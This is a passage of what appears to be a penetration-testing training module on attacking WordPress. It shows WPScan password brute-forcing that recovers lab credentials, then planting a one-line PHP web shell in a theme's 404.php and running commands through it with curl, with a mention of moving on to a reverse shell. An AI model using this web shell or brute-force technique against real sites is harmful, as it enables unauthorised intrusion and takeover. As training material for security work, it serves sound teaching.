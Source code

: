 ```shell
[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23

```

The `--password-attack` flag is used to supply the type of attack. The `-U` argument takes in a list of users or a file containing user names. This applies to the `-P` passwords option as well. The `-t` flag is the number of threads which we can adjust up or down depending. WPScan was able to find valid credentials for one user, `john:firebird1`.

* * *

## Code Execution

With administrative access to WordPress, we can modify the PHP source code to execute system commands. Log in to WordPress with the credentials for the `john` user, which will redirect us to the admin panel. Click on `Appearance` on the side panel and select Theme Editor. This page will let us edit the PHP source code directly. An inactive theme can be selected to avoid corrupting the primary theme. We already know that the active theme is Transport Gravity. An alternate theme such as Twenty Nineteen can be chosen instead.

Click on `Select` after selecting the theme, and we can edit an uncommon page such as `404.php` to add a web shell.

```php
system($_GET[0]);

```

The code above should let us execute commands via the GET parameter `0`. We add this single line to the file just below the comments to avoid too much modification of the contents.

![](https://academy.hackthebox.com/storage/modules/113/theme_editor.png)

Click on `Update File` at the bottom to save. We know that WordPress themes are located at `/wp-content/themes/<theme name>`. We can interact with the web shell via the browser or using `cURL`. As always, we can then utilize this access to gain an interactive reverse shell and begin exploring the target.

```shell
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
